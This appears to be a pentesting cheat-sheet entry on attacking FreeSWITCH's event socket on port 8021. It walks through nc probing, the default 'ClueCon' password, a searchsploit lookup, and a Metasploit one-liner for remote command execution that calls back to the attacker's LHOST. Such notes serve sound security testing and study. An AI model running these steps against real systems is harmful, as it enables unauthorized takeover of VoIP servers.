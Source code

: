 # 8021 - FreeSWITCH

`FreeSWITCH` is an open-source VoIP platform commonly used for PBX systems, SIP trunking, and conferencing services. The `mod_event_socket` module in FreeSWITCH opens a TCP socket—typically on port `8021`—which allows external applications to communicate with the switch using a command/response protocol.

This interface should **never be exposed externally** without robust access controls. If an attacker guesses or knows the `event_socket_password`—which defaults to `ClueCon` in many installations—they can authenticate and issue commands to the FreeSWITCH server. With successful authentication, an attacker could list and manage calls, inject audio or messages, execute arbitrary dial plans, and potentially escalate privileges further depending on the system's configuration.

## Enumeration

```bash
# TCP scan with nmap
PORT     STATE SERVICE       VERSION

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

# Manual service probbing
$ nc -nv 192.168.244.151 8021
(UNKNOWN) [192.168.244.151] 8021 (zope-ftp) open
Content-Type: auth/request
...
Content-Type: text/disconnect-notice
Content-Length: 67

Disconnected, goodbye.
See you at ClueCon! http://www.cluecon.com/
```

Upon probing with `nc`, the connection to the port succeeds and returns the message: `Content-Type: auth/request`, indicating that `FreeSWITCH` is prompting for a password. Authentication is usually performed using the command `auth <password>`. If the password is correct, the server responds with `Content-Type: command/reply Reply-Text: +OK accepted`.

## Attacks

```bash
# Check default credentials
$ creds search freeswitch
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| freeswitch | <blank>  | ClueCon  |
+------------+----------+----------+

# Check public exploits
$ searchsploit freeswitch
...
FreeSWITCH - Event Socket Command Execution (Metasploit)                  
| multiple/remote/47698.rb
```

A [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/freeswitch_event_socket_cmd_exec/) exists for the above RCE vulnerability:

{% code overflow="wrap" %}
```bash
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
msf exploit(freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix (In-Memory)
    1   Linux (Dropper)
    2   PowerShell (In-Memory)
    3   Windows (In-Memory)
    4   Windows (Dropper)
    
msf exploit(freeswitch_event_socket_cmd_exec) > set TARGET <target-id>
msf exploit(freeswitch_event_socket_cmd_exec) > show options
msf exploit(freeswitch_event_socket_cmd_exec) > exploit

# Inline command
sudo msfconsole -q -x "use exploit/multi/misc/freeswitch_event_socket_cmd_exec; set TARGET 3; set RHOSTS <target-ip>; set LHOST tun0; run;"
```
{% endcode %}
